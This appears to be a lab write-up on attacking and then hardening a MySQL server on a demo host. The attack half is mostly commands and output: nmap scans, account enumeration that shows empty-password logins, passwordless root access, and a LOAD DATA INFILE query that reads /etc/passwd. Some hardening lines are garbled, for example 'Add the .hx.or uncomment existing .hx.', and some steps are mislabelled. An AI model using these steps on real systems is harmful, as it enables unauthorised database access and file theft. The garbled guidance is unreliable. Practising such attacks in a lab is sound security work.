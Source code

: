 # Attack

## Ping.hx.Server

```bash
ping -c4 demo.hx.local
```

## Port Scans

```bash
nmap -sV -Pn demo.hx.local
```

## Port Scans

```bash
nmap -sV -Pn demo.hx.local

// output

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3306/tcp open  mysql         MySQL 8.0.31-0ubuntu0.20.04.1
3389/tcp open  ms-wbt-server xrdp
5910/tcp open  vnc           VNC (protocol 3.8)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## NMap MySQL Enum

```bash
nmap -p3306 --script mysql-enum demo.hx.local

// output

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
```

## Check Issues As Attacker

### Access MySQL

```bash
mysql -h demo.hx.local -u root --skip-password
```

### Verify for password policy

We verify that there is string password policy by creating a new user with weak password:

```sql
show databases;
select user, host from mysql.user;
create user 'sammy@localhost' identified by 'pass';
```

### Check Arbitrary File Read

We see that MySQL server has arbitrary file read vulnerability:

```sql
LOAD DATA INFILE "/etc/passwd" INTO TABLE test.tab;
select * from test.tab;
```

# Defend

## Patch Arbitrary File Read Vuln.

```bash
nano /etc/mysql/my.cnf
```

Comment out: 

```
#secure-file-priv = ""
```

## Change Default MySQL Service Port

```bash
sed -i 's/3306/22360/g' /etc/mysql/mysql.conf.d/mysqld.cnf
```

## Enable Password Complexity Policy

Open:

```bash
nano /etc/mysql/my.cnf
```

Add the .hx.or uncomment existing .hx.

```
plugin-load-add=validate_password.so
```

## Drop 'test' DB

```sql
drop database test;
```

## Obfuscate root Account

```sql
drop user 'root'@'%';
```
